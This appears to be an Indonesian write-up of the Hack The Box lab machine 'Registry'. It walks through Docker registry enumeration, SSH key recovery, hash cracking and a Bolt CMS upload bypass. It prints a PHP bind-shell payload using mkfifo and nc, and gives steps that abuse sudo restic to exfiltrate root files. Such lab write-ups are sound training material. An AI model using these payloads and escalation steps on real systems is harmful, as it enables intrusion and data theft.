# Registry [Linux]



Didapatkan sebuah box bernama Registry dengan IP 10.10.10.159

Menurut peserta lain, box ini akan berisi banyak enumerasi, real-life dan costum exploitation.

### Enumeration

Mari kita mulai dengan nmap dan dirbuster





Terdapat port 22, 80, dan 443 serta ditemukan directory install dan index.html

Pada directory /install/index.php ditemukan bytes yang unreadable, nampaknya kita diberikan sebuah file. Jadi penulis menggunakan wget untuk mengambil bytes tersebut dan menjadikannya sebuah file



Setelah di ambil, ternyata merupakan sebuah zip file, setelah di unzip ditemukan 2 file

- ca.crt
- readme.md



Kita diberikan referensi kepada Docker Registry, namun dimana kita harus melakukan ekstraksi data docker tersebut ?

Oh ternyata ada vhost, oleh sebab itu pembuat box juga meng include certificate agar kita memperhatikannya lebih baik, docker.registry.htb.

Baik, page tersebut kosong, tapi nampaknya kita perlu menggunakan referensi dari

[https://docs.docker.com/registry/spec/api/](https://docs.docker.com/registry/spec/api/)

Kita mengetes dengan menambahkan pada URL menjadi docker.registry.htb/v2 untuk mengecek endpoint yang menggunakan Docker Registry API. Kita diberikan sebuah Basic HTTP Authentication, namun bisa kita lewati dengan user dan password paling basic, yaitu admin admin.



Mari kita lanjutkan dengan mengecek repository apa saja yang ada pada docker ini



Ditemukan repository bernama bolt-image, mari kita cek tags apa saja yang ada pada repo tersebut.



Hanya ditemukan 1 tag, bernama latest

Mari kita melakukan GET pada manifest yang ada pada repository bolt-image dan dengan tag latest



File latest merupakan semacam database berformat JSON

```
{
   "schemaVersion": 1,
   "name": "bolt-image",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"
      },
      {
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"
      },
      {
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"
      },
      {
         "blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"
      },
      {
         "blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"
      },
      {
         "blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
      },
      {
         "blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
      },
      {
         "blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
      }
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"e2e880122289\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"bash\"],\"Image\":\"docker.registry.htb/bolt-image\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"container\":\"e2e88012228993b25b697ee37a0aae0cb0ecef7b1536d2b8e488a6ec3f353f14\",\"container_config\":{\"Hostname\":\"e2e880122289\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"bash\"],\"Image\":\"docker.registry.htb/bolt-image\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"created\":\"2019-05-25T15:18:56.9530238Z\",\"docker_version\":\"18.09.2\",\"id\":\"f18c41121574af38e7d88d4f5d7ea9d064beaadd500d13d33e8c419d01aa5ed5\",\"os\":\"linux\",\"parent\":\"9380d9cebb5bc76f02081749a8e795faa5b5cb638bf5301a1854048ff6f8e67e\"}"
      },
      {
         "v1Compatibility": "{\"id\":\"9380d9cebb5bc76f02081749a8e795faa5b5cb638bf5301a1854048ff6f8e67e\",\"parent\":\"d931b2ca04fc8c77c7cbdce00f9a79b1954e3509af20561bbb8896916ddd1c34\",\"created\":\"2019-05-25T15:13:31.3975799Z\",\"container_config\":{\"Cmd\":[\"bash\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"d931b2ca04fc8c77c7cbdce00f9a79b1954e3509af20561bbb8896916ddd1c34\",\"parent\":\"489e49942f587534c658da9060cbfc0cdb999865368926fab28ccc7a7575283a\",\"created\":\"2019-05-25T14:57:27.6745842Z\",\"container_config\":{\"Cmd\":[\"bash\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"489e49942f587534c658da9060cbfc0cdb999865368926fab28ccc7a7575283a\",\"parent\":\"7f0ab92fdf7dd172ef58247894413e86cfc60564919912343c9b2e91cd788ae4\",\"created\":\"2019-05-25T14:47:52.6859489Z\",\"container_config\":{\"Cmd\":[\"bash\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"7f0ab92fdf7dd172ef58247894413e86cfc60564919912343c9b2e91cd788ae4\",\"parent\":\"5f7e711dba574b5edd0824a9628f3b91bfd20565a5630bbd70f358f0fc4ebe95\",\"created\":\"2019-05-24T22:51:14.8744838Z\",\"container_config\":{\"Cmd\":[\"/bin/bash\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"5f7e711dba574b5edd0824a9628f3b91bfd20565a5630bbd70f358f0fc4ebe95\",\"parent\":\"f75463b468b510b7850cd69053a002a6f10126be3764b570c5f80a7e5044974c\",\"created\":\"2019-04-26T22:21:05.100534088Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  CMD [\\\"/bin/bash\\\"]\"]},\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"f75463b468b510b7850cd69053a002a6f10126be3764b570c5f80a7e5044974c\",\"parent\":\"4b937c36cc17955293cc01d8c7c050c525d22764fa781f39e51afbd17e3e5529\",\"created\":\"2019-04-26T22:21:04.936777709Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c mkdir -p /run/systemd \\u0026\\u0026 echo 'docker' \\u003e /run/systemd/container\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"4b937c36cc17955293cc01d8c7c050c525d22764fa781f39e51afbd17e3e5529\",\"parent\":\"ab4357bfcbef1a7eaa70cfaa618a0b4188cccafa53f18c1adeaa7d77f5e57939\",\"created\":\"2019-04-26T22:21:04.220422684Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c rm -rf /var/lib/apt/lists/*\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"ab4357bfcbef1a7eaa70cfaa618a0b4188cccafa53f18c1adeaa7d77f5e57939\",\"parent\":\"f4a833e38a779e09219325dfef9e5063c291a325cad7141bcdb4798ed68c675c\",\"created\":\"2019-04-26T22:21:03.471632173Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c set -xe \\t\\t\\u0026\\u0026 echo '#!/bin/sh' \\u003e /usr/sbin/policy-rc.d \\t\\u0026\\u0026 echo 'exit 101' \\u003e\\u003e /usr/sbin/policy-rc.d \\t\\u0026\\u0026 chmod +x /usr/sbin/policy-rc.d \\t\\t\\u0026\\u0026 dpkg-divert --local --rename --add /sbin/initctl \\t\\u0026\\u0026 cp -a /usr/sbin/policy-rc.d /sbin/initctl \\t\\u0026\\u0026 sed -i 's/^exit.*/exit 0/' /sbin/initctl \\t\\t\\u0026\\u0026 echo 'force-unsafe-io' \\u003e /etc/dpkg/dpkg.cfg.d/docker-apt-speedup \\t\\t\\u0026\\u0026 echo 'DPkg::Post-Invoke { \\\"rm -f /var/cache/apt/archives/*.deb /var/cache/apt/archives/partial/*.deb /var/cache/apt/*.bin || true\\\"; };' \\u003e /etc/apt/apt.conf.d/docker-clean \\t\\u0026\\u0026 echo 'APT::Update::Post-Invoke { \\\"rm -f /var/cache/apt/archives/*.deb /var/cache/apt/archives/partial/*.deb /var/cache/apt/*.bin || true\\\"; };' \\u003e\\u003e /etc/apt/apt.conf.d/docker-clean \\t\\u0026\\u0026 echo 'Dir::Cache::pkgcache \\\"\\\"; Dir::Cache::srcpkgcache \\\"\\\";' \\u003e\\u003e /etc/apt/apt.conf.d/docker-clean \\t\\t\\u0026\\u0026 echo 'Acquire::Languages \\\"none\\\";' \\u003e /etc/apt/apt.conf.d/docker-no-languages \\t\\t\\u0026\\u0026 echo 'Acquire::GzipIndexes \\\"true\\\"; Acquire::CompressionTypes::Order:: \\\"gz\\\";' \\u003e /etc/apt/apt.conf.d/docker-gzip-indexes \\t\\t\\u0026\\u0026 echo 'Apt::AutoRemove::SuggestsImportant \\\"false\\\";' \\u003e /etc/apt/apt.conf.d/docker-autoremove-suggests\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"f4a833e38a779e09219325dfef9e5063c291a325cad7141bcdb4798ed68c675c\",\"created\":\"2019-04-26T22:21:02.724843678Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:7ce84f13f11609a50ece7823578159412e2299c812746d1d1f1ed5db0728bd37 in / \"]}}"
      }
   ],
   "signatures": [
      {
         "header": {
            "jwk": {
               "crv": "P-256",
               "kid": "VGKV:6OCY:4ZWO:QBRQ:DWB7:3NNU:JGS2:EHWZ:MS7Y:6D2G:5BKQ:SAZD",
               "kty": "EC",
               "x": "WIY2HvbWKiRT8TrIwhDiGStmVNjfrG48j9S50mP1gYU",
               "y": "Y_QVfRKsUqI5gjvVxGvsQBvCBdevF3XwmpgpX81U0qA"
            },
            "alg": "ES256"
         },
         "signature": "ht3SZGEefAMfMWbqAyBVkcT4_GSu4uSXWovRIIq8MZdrLxlQerQ5gmP0SUveInlJju18eNKiHKR9n5kr2MuSog",
         "protected": "eyJmb3JtYXRMZW5ndGgiOjY3OTIsImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAxOS0xMS0xN1QxMjoyMzoyOFoifQ"
      }
   ]
}
```

Terdapat 10 blob dengan 10 digest yang berbeda, kita bisa mendownload semuanya



Setelah semua blob terdownload, unzip semuanya dan didapatkan semacam filesystem dari docker.registry.htb



Penulis stuck disini sangat lama hehe, melakukan enumerasi selama berhari hari, penulis mendapatkan :

- Private Key RSA

- config file di directory .ssh



- Sebuah Expect Script untuk login SSH



Baiklah kita sudah cukup enumerasi untuk melanjutkan yang mantap mantap

Kita akan melakukan koneksi SSH ke bolt@10.10.10.159 dengan menggunakan RSA private key dan passphrase

Setelah berhasil masuk dengan user bolt, penulis berhasil menemukan file yang menarik "bolt.db"



File tersebut merupakan file SQLite, sehingga penulis memindahkannya ke mesin lokal dan membukanya menggunakan SQLite



Kita mendapatkan 1 user admin dengan password yang di hashing menggunakan bcrypt atau blowfish encrypt, mari kita crack passwordnya menggunakan hashcat dan wordlist rockyou



Dapet password untuk admin nya, mari kita coba login ke 10.10.10.159/bolt/bolt (ditemukan setelah dirbusting yang sangat lama), jangan tertipu dengan 10.10.10.159/bolt (rabbit hole)



Kita login dengan username admin dan password strawberry



Didapatkan sebuah dashboard yang penuh dengan menu, pada saat pengerjaan, penulis menemukan “reverse-shell.php” di panel sebelah kanan, sehingga penulis mengira harus melakukan file upload untuk mendapatkan reverse shell ke www-data.



Kita dapat melakukan file upload disini, namun cuma ada beberapa file type yang diterima untuk dilakukan upload, dan file ekstensi .php dilarang untuk di upload. Penulis sempat mencoba melakukan file tampering namun ternyata file upload terlindungi oleh backend protection pula “File Upload Failed”

Penulis menemukan bahwa, karena kita login sebagai admin, kita bisa change configuration di bagian file upload.



Tambahkan “php” ke array accept_file_types, sekarang kita bisa mengupload file .php

Namun ada beberapa hal yang perlu diperhatikan dalam file upload ini :

Terdapat firewall untuk melimit koneksi outbound, hanya menerima koneksi inbound
Ada cron job yang aktif setiap beberapa detik atau menit, sangat sebentar jangka waktunya, yang akan mereset config file ini, menghapus file yang kita upload
Karena ada firewall, kita tidak bisa menggunakan payload reverse shell, melainkan kita menggunakan payload bind shell

```
<?php 
shell_exec("rm /tmp/f;mkfifo /tmp/s;cat /tmp/s | sh -i 2>&1 |nc -vnlp 4444 >/tmp/s");
?>
```

Sehingga kita akan memaksa websitenya menjadi penerima, yang melakukan listen dan mesin lokal kita yang akan nc dan mendapatkan shell dari situ



Penulis akan melakukan enumerasi linux dengan menggunakan script shell yang akan di copy dari mesin lokal menggunakan secure copy melalui ssh user bolt dan menaruhnya di directory /tmp dimana permissionnya selalu world writtable.

Ditemukan hal yang menarik, user www-data bisa melakukan command backup menggunakan restic dengan permission sebagai root tanpa harus menyediakan password seperti sudo.

Nah karena kita memiliki user www-data dan kita diberikan permission root untuk melakukan backup -r rest*, kita bisa membackup root/root.txt yang tadinya tidak bisa kita akses, memindahkannya ke mesin lokal kita dimana kita adalah root, dan membukanya tanpa masalah.

Step by step melakukan backup menggunakan restic :

-Cari di github sebuah tool dengan nama rest-server

-Selesaikan instalasi di mesin lokal, dan kirim executablenya melalui secure copy rsa lagi ke folder /tmp di www-data melalui bolt@10.10.10.159:/tmp

-Masih di folder yang sama yaitu /tmp, mari kita bikin directory bernama misalnya /myrepo

-restic init -r /tmp/myrepo/ (untuk melakukan inisialisasi repository dengan path yang sudah ditentukan, akan mendapatkan response berupa “created restic repository f1043e78fa at /tmp/myrepo”)

-./rest-server –no-auth –path /tmp/myrepo/ & (untuk menyalakan server restic tanpa authentikasi di path yang sudah ditentukan dan -menaruh prosesnya di background)

-sudo restic backup -r rest:http://127.0.0.1:8000 /root/root.txt (melakukan backup root/root.txt ke localhost, akan mendapatkan -response berupa snapshot 27e5cf86 saved)

-pergi ke mesin lokal, dan tarik backup dengan restic restore 27e5cf86 -r rest:http://10.10.10.159:8000 –target /root/Documents/htb/registry/



# Rooted !